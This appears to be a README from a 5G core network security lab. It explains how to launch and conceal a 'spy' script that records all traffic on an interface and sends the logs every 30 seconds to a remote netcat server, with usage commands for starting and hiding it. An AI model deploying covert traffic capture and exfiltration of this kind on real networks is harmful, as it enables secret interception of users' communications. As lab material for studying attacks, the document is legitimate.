# Start a Spy!

This spy saves all traffic on an interface and forwards every 30 seconds the log to a spy server elsewher. The output is supressed adn the porccess is run in the background to keep suspicion at bay.

Keep in mind that at the spy server location an [nc server](../../../UE_VM/Exploit_Scripts/Spy) needs to be running with the correct port to recieve the logs. (The spy server can be a ue ;) )

To call the spy:
```console
user@Core:~/5G/CORE_VM/Config_Files/Vulnerability_Configs/Spy$ ./call_spy.sh -i <interface to log>, -s <spy server ip>, -p <spy server port>
```
End/hide the spy:
```console
user@Core:~/5G/CORE_VM/Config_Files/Vulnerability_Configs/Spy$ ./hide_spy.sh
```
